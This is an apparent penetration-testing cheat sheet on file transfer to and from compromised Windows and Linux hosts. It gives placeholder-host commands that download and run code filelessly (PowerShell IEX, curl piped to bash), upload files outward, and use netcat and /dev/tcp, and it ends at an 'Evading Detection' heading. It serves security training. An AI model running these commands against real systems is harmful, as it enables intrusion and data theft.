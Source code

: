# 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Destination Machine: Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

**Destination Machine: Default**  
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>')
```

**Destination Machine: Pipeline input**  
```powershell
(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

**Destination Machine: Default**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -OutFile <OUTPUT FILE>
```

**Destination Machine: Authentication**  
```powershell
Invoke-WebRequest -Uri "http://<IP>:<PORT>/<FILE>" -Headers @{"Authorization"="Basic "+[Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("<USER>:<PASSWORD>"))} -OutFile "C:\Users\Public\<FILE>"
```

**Destination Machine: ByPass Internet Explorer Error**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -UseBasicParsing | IEX
```

**Destination Machine: Skip SSL validation (PowerShell 7+)**  
```powershell
Invoke-WebRequest -Uri "https://<IP>:<PORT>/<FILE>" -OutFile "<FILE>" -SkipCertificateCheck
```

**Destination Machine: Skip SSL validation (PowerShell 5.1 or previous)**  
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; (New-Object Net.WebClient).DownloadFile("https://<IP>:<PORT>/<FILE>", "<FILE>")
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Default</h4></summary>  

**Source Machine: Create a temporary SMB Share on Linux and place your target file in it** 

```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Destination Machine: Download the files**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
``` 

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Using credentials</h4></summary>  

**Source Machine: Create the SMB Server on Linux**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```

**Destination Machine: Download the files**  

**Mount the share**
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```

**Download the file**
```cmd
copy n:\<FILE>
```

**Unmount the share**
```cmd
net use n: /delete /y
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

**Source Machine: Setting up a Python3 FTP Server on Linux**
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user <USER> --password '<USER>'
```

**Destination Machine: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<USER>')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

**Source Machine: Encode File Using PowerShell** 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

**Destination Machine: Decode Base64 String on Linux**
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

**Destination Machine (Linux): Installing a Configured WebServer with Upload on Linux**

```bash
pip3 install uploadserver
python3 -m uploadserver --allow-replace 8000
```

**Source Machine (Windows): Upload the file**

```powershell
curl.exe -X POST http://<IP>:<PORT>/upload -F "files=@C:\Users\Cartman\Desktop\FileToUpload.txt"
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

**Destination Machine (Linux): We use Netcat to listen in on a port we specify and send the file as a POST request.**
```bash
nc -lvnp <PORT>
```

**Source Machine (Windows): PowerShell Script to Upload a File to Python Upload Server**
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```

**Destination Machine (Linux): We copy the output and use the base64 decode function to convert the base64 string into a file.**
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

**Source Machine: Installing WebDav Python modules on Linux**
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```

**Destination Machine: Uploading Files using SMB on Windows**
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Start our FTP Server on Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**Destination Machine: Upload the file on Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```

Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

**Destination Machine: Once in FTP...**
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUT FILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget http://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- http://<IP>:<PORT>/<FILE> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -o <OUTPU_FILE> http://<IP>:<PORT>/<FILE>
```

**Ignore SSL certificate**  
```bash
curl -k -o <OUTPU_FILE> https://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
curl http://<IP>:<PORT>/<FILE> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Source Machine: Starting the SSH Server**  
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

**Source Machine: Checking for SSH Listening Port**  
```bash
#0.0.0.0:22
netstat -lnpt
```

**Destination Machine: Downloading Files Using SCP**  
```bash
scp user@remote_ip:/remote/path/<FILE> /local/path/
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web upload</h3></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>Python UploadServer (Basic)</h4></summary>

**Source Machine: Start Web Server**  
```bash
# Run in the target directory
sudo python3 -m pip install --user uploadserver
sudo python3 -m uploadserver <PORT>

#Serving HTTP on 0.0.0.0 port <PORT> (http://0.0.0.0:<PORT>/) ...
```  
  
> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>Authenticated Web Server</h4></summary>

**Source Machine: Create server.py**  
```python
# server.py
from http.server import HTTPServer, SimpleHTTPRequestHandler
import base64

class AuthHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        auth = self.headers.get('Authorization')
        if not auth or not auth.startswith('Basic '):
            self.send_response(401)
            self.send_header('WWW-Authenticate', 'Basic realm="Secure Area"')
            self.end_headers()
            return
        
        username, password = base64.b64decode(auth[6:]).decode().split(':', 1)
        if username == '<PORT>' and password == '<PORT>':
            super().do_GET()
        else:
            self.send_response(403)
            self.end_headers()
            self.wfile.write(b'Access denied')

HTTPServer(('0.0.0.0', <PORT>), AuthHandler).serve_forever()
```

**Source Machine: Start Web Server**  
```bash
sudo python3 server.py
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
  
**Upload to Remote Server**  
```bash
scp <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <FILE> <USER>@<IP>:/remote/path/
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <FILE> <USER>@<IP>:/remote/path/
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Using FTP Command**  
```bash
ftp <IP>
# Once connected:

put <FILE>
```

**Source Machine: Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>

# Once connected:
put <FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Source Machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server 8000
```

**Source Machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Source Machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Source Machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
</details>

---

<details>
<summary><h1>💻 Code</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```

**Python 2**
```python
python2.7 -c 'import urllib;urllib.urlretrieve ("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PHP</h3></summary>

**PHP Download with File_get_contents()**
```php
php -r '$file = file_get_contents("http://<IP>:<PORT>/<FILE>"); file_put_contents("<OUTPUT FILE>",$file);'
```  
  
**PHP Download with Fopen()**
```php
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://<IP>:<PORT>/<FILE>", "rb"); $flocal = fopen("<OUTPUT FILE>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```    

**PHP Download a File and Pipe it to Bash**
```php
php -r '$lines = @file("http://<IP>:<PORT>/<FILE>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```    


</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ruby</h3></summary>

```ruby
ruby -e 'require "net/http"; File.write("<OUTPUT FILE>", Net::HTTP.get(URI.parse("http://<IP>:<PORT>/<FILE>")))'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Perl</h3></summary>

```perl
perl -e 'use LWP::Simple; getstore("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>");'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>JavaScript</h3></summary>

**Create the script wget.js**
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.js http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>VBScript</h3></summary>

**Create the script wget.vbs**
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.vbs http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/uploads/path/",files={"files":open("<LOCAL FILE>")})'
```
</details>
</details>
</details>

---

<details>
<summary><h1>🧰 Miscellaneous</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>NC</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Netcat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
nc -lvnp 8000 > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
nc -q 0 <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

Instead of listening on the compromised machine, you can listen on your attack host and have the compromised machine connect out. This is useful when inbound connections are blocked by a firewall.

**Destination Machine: Connects to Source Machine and receives file**
```bash
nc <IP> 443 > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo nc -l -p 443 -q 0 < <LOCAL FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ncat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
ncat -l -p 8000 --recv-only > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
ncat --send-only <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

**Destination Machine: Connects to Source Machine and receives file**
```bash
ncat <IP> 443 --recv-only > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo ncat -l -p 443 --send-only < <LOCAL FILE>
```  

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Bash /dev/tcp</h3></summary>

If Netcat or Ncat are not available, Bash can use the pseudo-device `/dev/tcp/host/port` for file transfers.

**Destination Machine: Receive file using /dev/tcp**
```bash
cat < /dev/tcp/<IP>/443 > <OUTPUT FILE>
```

> **Note:** This method can also be used to transfer files from the compromised host to your Source Machine by reversing the direction of the connection.

</details>
</details>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h1>RDP</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Clipboard</h3></summary>

You can transfer files between your local machine and a remote Windows host using the RDP clipboard (copy-paste) feature. This is supported by most RDP clients if clipboard redirection is enabled.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Ensure "Clipboard" is checked.
4. Connect to the remote host.
5. Copy files on your local machine and paste them into the remote desktop (or vice versa).

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Shared Drives</h3></summary>

You can map a local drive to the remote session, making it accessible from the remote host.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Click "More..." under "Local devices and resources".
4. Check the drives you want to share.
5. Connect to the remote host.
6. The shared drive will appear in "This PC" or "My Computer" on the remote desktop, allowing you to copy files between systems.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via xfreerdp (Linux)</h3></summary>

If you are using Linux, you can use `xfreerdp` to enable clipboard and drive redirection.

**Clipboard (copy-paste):**
```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> +clipboard
```

**Share a local folder (e.g., /tmp/share):**
```bash
xfreerdp /v:<IP> /u:<USER> /p:<PASSWORD> +clipboard /drive:share,/tmp/share
```
The shared folder will appear as a drive on the remote Windows session.

</details>
</details>
</details>

---

<details>
<summary><h1>🔒 Protected File Transfers</h1></summary>

> **Note:** Unless specifically requested by a client, we do not recommend exfiltrating data such as Personally Identifiable Information (PII), financial data (i.e., credit card numbers), trade secrets, etc., from a client environment. Instead, if attempting to test Data Loss Prevention (DLP) controls/egress filtering protections, create a file with dummy data that mimics the data that the client is trying to protect.

> **Note:** Remember to use a strong and unique password to avoid brute-force cracking attacks should an unauthorized party obtain the file.

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Windows</h2></summary>

Many different methods can be used to encrypt files and information on Windows systems. One of the simplest methods is the [`Invoke-AESEncryption.ps1`](../scripts/file_transfers/Invoke-AESEncryption.ps1) PowerShell script. This script is small and provides encryption of files and strings.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Invoke-AESEncryption.ps1</h3></summary>

**Installation & Configuration**

```powershell
$moduleCode = @'
function Invoke-AESEncryption {
    [CmdletBinding()]
    [OutputType([string])]
    Param
    (
        [Parameter(Mandatory = $true)]
        [ValidateSet('Encrypt', 'Decrypt')]
        [String]$Mode,

        [Parameter(Mandatory = $true)]
        [String]$Key,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
        [String]$Text,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
        [String]$Path
    )

    Begin {
        $shaManaged = New-Object System.Security.Cryptography.SHA256Managed
        $aesManaged = New-Object System.Security.Cryptography.AesManaged
        $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
        $aesManaged.BlockSize = 128
        $aesManaged.KeySize = 256
    }

    Process {
        $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))

        switch ($Mode) {
            'Encrypt' {
                if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName + ".aes"
                }

                $encryptor = $aesManaged.CreateEncryptor()
                $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
                $encryptedBytes = $aesManaged.IV + $encryptedBytes
                $aesManaged.Dispose()

                if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File encrypted to $outPath"
                }
            }

            'Decrypt' {
                if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName -replace ".aes"
                }

                $aesManaged.IV = $cipherBytes[0..15]
                $decryptor = $aesManaged.CreateDecryptor()
                $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)
                $aesManaged.Dispose()

                if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File decrypted to $outPath"
                }
            }
        }
    }

    End {
        $shaManaged.Dispose()
        $aesManaged.Dispose()
    }
}
'@

# Create the directory for the current user
$modulePath = "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt"
if (!(Test-Path $modulePath)) {
    New-Item -ItemType Directory -Path $modulePath -Force
}

# Save the module
$moduleCode | Out-File "$modulePath\AESCrypt.psm1" -Encoding utf8

# Import the module
Import-Module AESCrypt -Force

```

> **Note:** To install globally (admin required), use the following route: **$modulePath = "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AESCrypt"**

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Encryption Examples</h3></summary>

Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Text "<STRING>" 
```

Decrypts the Base64 encoded string and outputs plain text.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Text "<BASE64STRING>" 
```

Encrypts the file and outputs an encrypted file ".aes".
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Path <FILE>
```

Decrypts the ".aes" file and outputs an decrypted file.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Path <AES FILE>
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Uninstall module</h3></summary>

**Uninstall for current user**
```powershell
Remove-Module AESCrypt -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt" -Recurse -Force
```

**System-wide uninstall (admin required)**
```powershell
Remove-Module AESCrypt -ErrorAction SilentlyContinue
Remove-Item "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AESCrypt" -Recurse -Force
```

**Verify Uninstallation**
```powershell
Get-Module AESCrypt -All | Remove-Module -ErrorAction SilentlyContinue
if (!(Test-Path "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt")) {
    Write-Output "Module completely removed"
}
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Linux</h2></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>openssl</h3></summary>

Encrypting file  

```bash
openssl enc -aes256 -iter 100000 -pbkdf2 -in <FILE> -out <ENCRYPTED FILE>
```

Decrypting file   

```bash
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in <ENCRYPTED FILE> -out <FILE>                    
```

</details>
</details>
</details>

---

<details>
<summary><h1>👻 Evading Detection</h1></summary>

